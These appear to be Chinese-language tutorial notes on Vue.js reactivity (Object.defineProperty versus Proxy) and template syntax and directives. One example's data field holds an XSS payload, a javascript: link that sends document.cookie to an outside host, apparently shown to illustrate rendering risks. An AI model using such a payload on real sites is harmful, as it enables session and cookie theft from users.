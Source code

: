 
> vue内部通过数据劫持&发布订阅模式实现数据的双向绑定

通过Object.defineProperty方法对所有的数据进行数据劫持，就是给这些数据动态的添加了getter与setter方法。

在数据变化的时候发布消息给订阅者（Watcher），触发响应的监听回调。

![mvvm背后原理](https://s1.ax1x.com/2020/05/23/YjWRDH.png)







扩展：

注意：Object.defineProperty有一些缺点：

 1、对象属性的新加或者删除无法监听； 

 2、数组元素的增加和删除无法监听

针对Object.defineProperty的缺点，ES6 Proxy都能够完美得解决，它唯一的缺 点就是，对IE不友好,所以vue3在检测到如果是使用IE的情况下（没错，IE11都不支持Proxy），会自动降级为Object.defineProperty的数据监听系统。





## 一.模板语法

###  (1) 插值 

​	a.文本 {{ }}   声明一条数据，然后用特殊的模板语法将其渲染出来（声明式渲染）

```
let vm = new Vue({     //vue实例的配置项
            el:"#app",//指代挂载点
            data:{    //vue所管理的数据 
                msg2:`<a href=javascript:location.href='http://www.baidu.com?cookie='+document.cookie>click</a>`
            }   
        })
```

​	b.表达式 {{ 表达式 }}





### (2) 指令

​	是带有 v- 前缀的特殊属性

- ​     v-bind 动态绑定属性
	 ​     v-if 动态创建/删除 
- ​     v-show 动态显示/隐藏 
- ​     v-on:click 绑定事件 
- ​     v-for 遍历 
- ​     v-model 双向绑定表单 (修饰符)
- ​     v-cloak  防止表达式闪烁
